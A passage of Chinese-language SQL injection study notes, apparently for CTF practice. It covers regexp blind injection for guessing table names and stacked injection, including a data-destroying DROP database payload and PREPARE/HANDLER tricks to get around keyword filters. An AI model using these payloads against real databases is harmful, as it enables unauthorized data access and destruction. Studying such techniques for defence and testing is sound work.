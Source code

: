 - 查找name字段中含有a或者b的所有数据：   select name from admin where name     regexp ' a|b ';
- 查找name字段中含有ab，且ab前有字符的所有数据(.匹配任意字符)： select name from admin where     name regexp ' .ab ';
- 查找name字段中含有at或bt或ct的所有数据： select name from admin where name regexp     ' [abc]t ';
- 查找name字段中以a-z开头的所有数据：   select name from admin where name     regexp ' ^[a-z] ';
- 已知数据库名为 security，判断第一个表的表名是否以 a-z 中的字符开头，^[a-z] --> ^a ; 判断出了第一

个表的第一个字符，接着判断第一个表的第二个字符 ^a[a-z] --> ^ad ; 就这样，一步一步判断第一个表

的表名 ^admin$ 。然后 limit 1，1 判断第二个表

### 堆叠注入

在我们无法使用**select**查询时候，堆叠注入就很有用了

```sql
#在sql中，分号;是用来表示一条sql语句的结束，试想一下我们在 ; 结束后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。
#而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别呢？区别就在于union 或者union all执行的语句类型是有限的，只可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。
#用户输入：root';DROP database user；服务器端生成的sql语句为：Select * from user where name='root';DROP database user；当执行查询后，第一条显示查询信息，第二条则将整个user数据库删除。
show databases;查看全部库
show tables;查看当前库的全部表
desc  `表名`：查看表的结构 .要用`包裹住  在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符。有些表需要`包裹，有些不需要。

#预处理语句PREPARE：
PREPARE hacker from concat('s','elect', ' * from `表名` ');EXECUTE hacker;#
#这样我们拼接了select 

#在prepare被过滤了，使用HANDLER [表名] OPEN;语句打开一个表，使其可以使用后续HANDLER [表名] READ；
#该表对象未被其他会话共享，并且在会话调用HANDLER [表名] CLOSE，或会话终止之前不会关闭
HANDLER 表名 OPEN;                                                     打开表
HANDLER FlagHere READ FIRST;                                          读表 
HANDLER FlagHere  close;#                                             关闭这个流
```

上面的两行语句要写成一行命令

![image-20220810215118564](sql注入.assets/image-20220810215118564.png)
